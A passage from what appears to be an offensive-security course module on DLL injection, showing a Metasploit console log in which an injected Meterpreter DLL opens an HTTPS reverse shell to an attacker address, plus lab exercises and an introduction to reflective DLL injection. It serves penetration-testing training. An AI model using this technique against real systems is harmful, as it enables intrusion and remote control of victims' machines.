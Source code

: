 ```
    }
}
```

> Listing 24 - Creating a remote thread with argument

When we compile and execute the completed code, it fetches the Meterpreter DLL from the web server and returns a reverse shell:

```
msf5 exploit(multi/handler) > exploit

[*] Started HTTPS reverse handler on https://192.168.119.120:443
[*] https://192.168.119.120:443 handling request from 192.168.120.11; (UUID: pm1qmw8u) Staging x64 payload (207449 bytes) ...
[*] Meterpreter session 1 opened (192.168.119.120:443 -> 192.168.120.11:49678)

meterpreter > 
```

> Listing 25 - Getting a reverse shell

We can display all the loaded DLLs in the processes with Process Explorer. We'll select the **explorer.exe** process, navigate to _View_ > _Lower Pane View_ and select _DLLs_. Scrolling down, we find **met.dll** as expected (Figure 4).

<figure><img src="https://static.offsec.com/offsec-courses/PEN-300/imgs/pim/dc3ff81178480f0d106271a64af79d53-pim_dll_inject.png" alt="Figure 4: Meterpreter DLL loaded in explorer.exe"><figcaption><p>Figure 4: Meterpreter DLL loaded in explorer.exe</p></figcaption></figure>

By reusing the techniques from process injection, we are able to load an unmanaged DLL into a remote process. Unfortunately, this technique does write the DLL to disk. In the next section, we'll tackle this issue.

### Resources

Some of the labs require you to start the target machine(s) below.

Please note that the IP addresses assigned to your target machines may not match those referenced in the Module text and video.

Process Injection - Client01 - VM #3

**Labs**

1. Implement the C# code to perform DLL injection and obtain a reverse Meterpreter shell as shown in this section. With the Meterpreter shell running, can you delete the downloaded DLL from the compromised VM?

Answer

### 8.3. Reflective DLL Injection

This Learning Unit covers the following Learning Objective:

1. Reflective DLL Injection in PowerShell

In this Learning Unit, we'll explore how to improve upon DLL injection to avoid requiring the DLL to be downloaded on disk, using a technique known as [reflective DLL injection](https://github.com/stephenfewer/ReflectiveDLLInjection).
